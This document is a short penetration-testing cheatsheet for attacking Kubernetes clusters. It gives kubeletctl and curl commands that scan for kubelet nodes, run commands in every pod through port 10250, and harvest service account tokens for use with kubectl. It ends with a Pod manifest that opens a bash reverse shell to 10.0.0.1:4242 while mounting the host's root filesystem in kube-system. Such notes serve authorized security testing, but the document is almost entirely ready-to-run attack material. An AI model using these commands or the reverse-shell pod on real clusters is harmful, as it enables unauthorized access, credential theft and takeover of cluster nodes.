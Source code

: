 # Kubernetes Pentest with kubeletctl and kubectl

References:  

- <https://github.com/cyberark/kubeletctl>
- <https://www.cyberark.com/resources/threat-research-blog/using-kubelet-client-to-attack-the-kubernetes-cluster>

## Cheatsheet

```bash
# Scan for nodes
kubeletctl scan --cidr <CIDR notation>

# List pods in a node 
kubeletctl --server <node ip> pods

# Run commands in a pod
curl -ks -X POST https://<node_ip>:10250/run/<namespace>/<pod>/<container> -d "cmd=ls /"

# Run commands in all pods
kubeletctl run "whoami" --all-pods --server <node ip>

# Run a command on a specific pod
kubeletctl run "whoami" --pod <pod name> --namespace <namespace> --container <container> --server <node ip>

# Scan for tokens
kubeletctl scan token --server <node ip>

# Interact with kubectl and tokens
kubectl -s <server:port> --certificate-authority="<ca.crt file>" --token=$(cat token.txt)
```

Pod reverse shell  

```yaml
# https://rioasmara.com/2021/09/18/kubernetes-yaml-for-reverse-shell-and-map-root/
apiVersion: v1
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
  - name: alpine
    image: localhost:5000/dev-alpine
    command: ["/bin/bash"]
    args: ["-c", "bash -i >& /dev/tcp/10.0.0.1/4242 0>&1"]
    volumeMounts:
    - mountPath: /root/
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```
